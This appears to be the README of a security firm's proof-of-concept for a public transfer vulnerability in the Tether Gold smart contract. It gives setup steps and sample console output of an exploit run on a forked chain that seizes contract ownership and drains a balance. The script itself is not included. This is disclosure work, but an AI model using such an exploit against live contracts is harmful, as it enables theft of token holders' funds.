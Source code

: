# TGoldPoc

This repo contains the PoC of the [public transfer vulnerability in the Tether Gold contract](https://blocksecteam.medium.com/public-transfer-vulnerability-of-the-tether-gold-smart-contract-662694607d35).


To use this PoC, sign up in [Phalcon Fork](https://phalcon.xyz/fork). Then add the access key to the PoC.



This PoC requires the web3.py, please install it first to use the PoC.

```
>>python tgold.py
--------------------start ----------
[*] Insufficent fund in "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5". Get some Ether from vitalik.
[*] Insufficent fund in "0x14C4fffd8748CF0E23Af945a11eeaBC3416dD4c1". Get some Ether from vitalik.
[*] 0xAC3B242E2E561da9F4cE34746E67d004E6341FA0 Submit a transaction in the multisig wallet to transferOwnership to 0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5.
proposal_id: 2207
[*] Confirmed the transaction by 0xEe5207d3c88562fc814496Af0845B34CFD4afc8c.
[*] Confirmed the transaction by 0x61D5a4d5Bd270e59E9320243e574288e2a199fED.
[*] The pool owner is "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5"
[*] Add a new owner "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5" to TGold contract
[*] Before the attack - balance: 0
[*] Lunch the attack
[*] After the attack - balance: 2000000
[*] Owned!
```

If you have any question please contact us contact@blocksec.com.



